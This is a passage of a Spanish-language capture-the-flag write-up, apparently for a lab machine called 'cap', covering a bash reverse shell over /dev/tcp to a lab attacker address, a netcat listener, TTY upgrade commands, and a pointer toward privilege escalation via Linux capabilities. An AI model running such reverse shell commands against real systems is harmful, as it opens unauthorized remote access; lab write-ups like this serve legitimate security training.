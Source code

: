 Perfecto estamos en la máquina como el usuario `nathan`.

<br>

<h3 style="text-align:center" id="revshell">REVERSE SHELL INTERACTIVA</h3>
<hr>

Para cambiar de `ssh` a una shell totalmente interactiva hacemos lo siguiente:

1 - Nos ponemos por escucha en el puerto que vayamos a usar para entablar la conexión:

```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...
```

<br>

2 - Desde ssh nos enviamos una reverse shell:

```bash
nathan@cap:~$ bash -c "bash -i >& /dev/tcp/10.10.16.6/1234 0>&1"
```

<br>

3 - Recibimos la conexión:

```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.245] 54710
nathan@cap:~$ whoami
nathan
```

<br>

4 - Reiniciamos la shell con la siguiente sucesión de comandos:

```bash
nathan@cap:~$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
nathan@cap:~$ ^Z    
[1]  + 8520 suspended  nc -lvnp 1234
❯ stty raw -echo;fg
[1]  + 8520 continued  nc -lvnp 1234
                                    reset xterm
nathan@cap:~$ export TERM=xterm
nathan@cap:~$ export SHELL=/bin/bash
```

En este momento ya disponemos de una shell totalmente interactiva.



## ESCALADA DE PRIVILEGIOS

A la hora de escalar privilegios el nombre de la máquina `cap` nos puede dar una pequeña pista. Eso es,  <a href="https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)" target="_blank">Capabilities</a>.
